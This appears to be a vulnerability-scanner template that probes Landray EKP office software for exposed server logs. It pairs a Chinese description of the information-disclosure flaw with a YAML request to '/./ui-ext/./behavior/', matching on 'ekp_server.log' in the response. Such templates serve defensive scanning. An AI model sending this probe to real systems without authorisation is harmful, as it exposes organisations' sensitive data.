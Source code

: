 漏洞描述：蓝凌EKP由深圳市蓝凌软件股份有限公司自出研发，是一款全程在线数字化OA，应用于大中型企业在线化办公。包含流程管理、知识管理、会议管理、公文管理、任务管理及督办管理等100个功能模块。。攻击者可利 用漏洞获取大量敏感信息。

```
relative: req0
session: false
requests:
- method: GET
timeout: 10
path: /./ui-ext/./behavior/
headers:
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.2786.81 Safari/537.36
follow_redirects: false
matches: (code.eq("200") && body.contains("ekp_server.log"))
```

